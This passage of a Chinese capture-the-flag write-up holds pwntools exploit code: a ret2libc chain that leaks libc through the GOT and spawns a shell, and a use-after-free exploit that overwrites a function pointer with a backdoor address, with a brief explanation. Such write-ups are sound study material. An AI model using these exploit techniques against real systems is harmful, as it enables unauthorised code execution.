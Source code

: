 ```python
        res %= m
    return res

def ans():
    global ru,sl
    ru("it\n")
    for i in range(20):
        c = int(ru('\n'))
        m = powmod(c, d, N)
        sl(str(m))
        ru('\n')

ans()
ru('name:\n')
pop_rdi = 0x40095a
welcome = 0x400b30
payload = flat('a'*0x48,pop_rdi,elf.got['read'],elf.plt['puts'],welcome)
sl(payload)
read = uu64(r(6))
leak('read',read)
system,binsh = ret2libc(read,'read')
payload = flat('a'*0x48,pop_rdi,binsh,system)
sl(payload)
```

### YDSneedGirlfriend

本题在删除时没有将指针置空，存在 uaf。而 `girlfriend` 结构体由一个打印名字的函数和存储名字的 `char` 数组构成，我们希望能将该函数指向程序中已经存在的 `backdoor` 函数。需要注意 64 位下最少分配 `0x20` 字节，而 `add(0x20)` 会分配 `0x30` 字节。这确保了在 `add(0x8)` 时，先被分配到的是 `girlfriend1` 的函数指针，然后是 `girlfriend0` 的函数指针。

```python
def add(size,name='a'):
    sla(':','1')
    sla(':',str(size))
    sla(':',name)

def delete(index):
    sla(':','2')
    sla(':',str(index))

def show(index):
    sla(':','3')
    sla(':',str(index))

add(0x20)
add(0x20)
delete(0)
delete(1)
add(0x8,p64(elf.sym['backdoor']))
show(0)
```

